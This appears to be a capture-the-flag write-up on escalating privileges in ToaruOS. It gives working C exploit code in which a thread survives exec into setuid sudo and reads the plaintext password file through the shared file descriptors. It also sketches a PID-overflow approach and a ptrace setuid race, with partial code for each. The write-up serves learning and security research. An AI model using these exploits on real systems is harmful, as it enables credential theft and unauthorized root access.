







We are given an image of the latest release of the [ToaruOS project](https://github.com/klange/toaruos)
and access to a shell as the `local` user. The goal is to read `/flag.txt` owned by root.

There are multiple vulnerabilities in the project, but the one I used resides in the way the OS handles
threads inside processes.

The `pthread_create` implementation calls `sys_clone`:

`sys_clone` will call `clone` from `process.c`:

This function will call `spawn_process` with the last argument (flags) set to 1.
This is the equivalent of `PROC_REUSE_FDS`, which, when set, will simply reuse the 
FD table for the new thread (process):

The problem is that when `exec`-ing a new image, the threads created are not stopped.
This means that you can have a thread inside a new process and access every FD from it.
The thread will have a different address space, of course, but having access to the FD list
is enough to achieve privilege escalation.

The `sudo` binary has the `setuid` bit set (similar to Linux). It uses a custom library
called `libauth` to check the credentials, which opens `/etc/master.passwd`. The credentials 
are stored in plaintext.

Having access to the FD list of the `sudo` process, we can bruteforce the FDs to read the passwords.

## Building an app for ToaruOS

The OS uses a custom toolchain based on GCC and there are numerous ways to build an app for it.
I used the official documentation to build the entire OS, and added a custom application in the `apps` folder.
The Makefile builds everything, including the apps. The readme on GitHub provides some snippets to build the OS
inside Docker. After the app is built, I copied it alongside `flag.txt` in the Docker image provided by the CTF.

On the remote, I used the `fetch` binary, which comes preinstalled with the OS and is similar to `curl`.

## Final exploit


#include <unistd.h>
#include <stdio.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/signal_defs.h>
#include <sys/uregs.h>
#include <pthread.h>
#include <errno.h>

void* threadHandler(void* _unused) {
  for (;;) {
    usleep(100);
    for (int fd = 3; fd < 7; fd += 1) {
      char content[1024] = { 0 };
      int bytesRead = read(fd, content, sizeof content);
      if (bytesRead <= 0) {
        continue;
      }
      printf("%s\n", content);
    }
  }

  return NULL;
}

void threadThing() {
  pid_t pid = fork();

  if (pid < 0) {
    printf("Error forking: %d (%s)\n", errno, strerror(errno));
    exit(-1);
  }

  int isChild = pid == 0;

  if (isChild) {
    pthread_t thread;
    pthread_create(&thread, NULL, threadHandler, NULL);
    char* args[] = { "/bin/sudo", "-s", NULL };
    execvp(args[0], args);
  } else {
    waitpid(pid, NULL, 0);
  }
}

int main() {
  threadThing();
}


After multiple runs, the exploits successfully dumps the password list. The `local` user is already in `sudoers`,
so we can get a shell with `sudo -s` and the password of the `local` user.

## Other exploits considered

### PID overflow

The PID is stored in a variable of type `int` and is not reused when a process exists.

If we manage to create enough processes to overflow the variable, we can get a process with PID 0.
This has several implications, for example the `ptrace` handler checks if the tracer is the current process,
but when a process does not have a tracer, the `tracer` field is zero. So, if we have access to a process with PID
0, we can trace (almost) any process:

However, after creating ~30.000 processes, the instance crashes. Probably there was a memory leak somewhere.
Here is the code I used to test that:

void bruteforcePids() {
    for (int i = 0; i < 100000; i += 1) {
        pid_t pid = fork();
        if (pid < 0) {
            printf("Error forking: %d (%s)\n", errno, strerror(errno));
            exit(-1);
        }

        int isChild = pid == 0;

        if (isChild) {
            exit(0);
        } else {
            if (i % 10000 == 0) {
                printf("%d: %d\n", i, pid);
            }
            waitpid(pid, NULL, 0);
        }
    }
}


### Race condition in `ptrace`

When a process is `ptrace`d, the kernel sets 2 flags on the process object while holding a lock:

When a process is launched, and the file has the `setuid` bit set, the kernel checks if the process
is being `ptrace`d, and in that case ignores the bit:

The issue is that checking these flags is not done by holding that lock. So you can create a race 
between these 2 functions and have a process with root privileges being `ptrace`d by a normal user.

I didn't end up implementing this, as the race was pretty tight, but it is possible in theory. I only
have bits of the code which sets up the `ptrace`ing:


void child() {
    long status = -1;

    printf("hello from child\n");

    status = ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    if (status != 0) {
        printf("error PTRACE_TRACEME: %ld\n", status);
        exit(0);
    }

    char* args[] = { "/bin/sudo", "-s" };
    status = execvp(args[0], args);

    printf("exec failed: %ld\n", status);
}

void parent(pid_t pid) {
    int childStatus;
    while (1) {
        pid_t result = waitpid(pid, &childStatus, WSTOPPED);

        if (result < 0) {
            continue;
        }

        if (WIFSTOPPED(childStatus) && WSTOPSIG(childStatus) == SIGTRAP) {
            struct URegs regs;
            ptrace(PTRACE_GETREGS, pid, NULL, &regs);
            int event = (childStatus >> 16) & 0xff;
            if (event == PTRACE_EVENT_SYSCALL_ENTER) {
                printf("Got syscall: %ld\n", regs.rax);
            }
            ptrace(PTRACE_CONT, pid, NULL, NULL);
        }
    }
}

void ptraceThing() {
    pid_t pid = fork();
    if (pid < 0) {
        printf("Error forking: %d (%s)\n", errno, strerror(errno));
        exit(-1);
    }

    if (pid != 0) {
        parent(pid);
    } else {
        child();
    }
}
